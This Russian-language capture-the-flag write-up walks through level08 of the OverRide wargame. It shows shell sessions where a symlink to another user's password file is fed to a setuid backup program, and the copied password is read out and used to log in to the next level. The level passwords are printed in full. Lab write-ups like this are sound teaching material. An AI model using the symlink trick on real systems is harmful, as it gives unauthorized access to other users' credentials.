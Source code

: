 [back](../defense.md)

Через линк можно скопировать пароль

level07@OverRide:~$ su level08
Password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08

level08@OverRide:~$ cd /home/users/level08

level08@OverRide:~$ ls -la
	dr-xr-x---+ 1 level08 level08   100 Oct 19  2016 .
	dr-x--x--x  1 root    root      260 Oct  2  2016 ..
	drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
	-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
	-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
	lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
	-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
	-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
	-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
	-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
	-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo

Мы видим директорию backups
level08@OverRide:~$ ls -la backups/
	-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log

level08@OverRide:~$ cat backups/.log
	LOG: Starting back up: 

level08@OverRide:~$ ./level08
	Usage: ./level08 filename
	ERROR: Failed to open (null)

Когда мы запускаем ./level08 filename, этот файл копируется в директорию backups
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "trurgot-kmarg" > tk
level08@OverRide:~$ ./level08 tk
level08@OverRide:~$ cat backups/tk
	trurgot-kmarg

Также логируется
level08@OverRide:~$ cat backups/.log
	LOG: Starting back up: tk
	LOG: Finished back up tk

Попробуем бэкапнуть пароль, использовав его в качестве параметра
level08@OverRide:~$ ./level08 /home/users/level09/.pass
	ERROR: Failed to open ./backups//home/users/level09/.pass

Это не получилось? так как путь содержит "//", файл должен находиться в текущей директории.

Попробуем в домашнем каталоге создать символическую ссылку на ```/home/users/level09/.pass```. 
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
level08@OverRide:~$ ls -la
	drwxrwxrwx+ 1 level08 level08   140 Dec  3 15:34 .
	dr-x--x--x  1 root    root      260 Oct  2  2016 ..
	drwxrwx---+ 1 level09 users      80 Dec  3 15:22 backups
	-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
	-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
	lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
	-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
	-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
	lrwxrwxrwx  1 level08 level08    25 Dec  3 15:34 pass -> /home/users/level09/.pass
	-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
	-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
	-r--r-----+ 1 level08 level08    14 Dec  3 15:21 tk
	-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo

Теперь мы можем запустить двоичный файл по символической ссылке, 
и он создаст резервную копию файла паролей в папке ```backups/```.
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

level08@OverRide:~$ su level09
Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09

level09@OverRide:~$ cd /home/users/level09
level09@OverRide:~$ ls -la

[back](../defense.md)
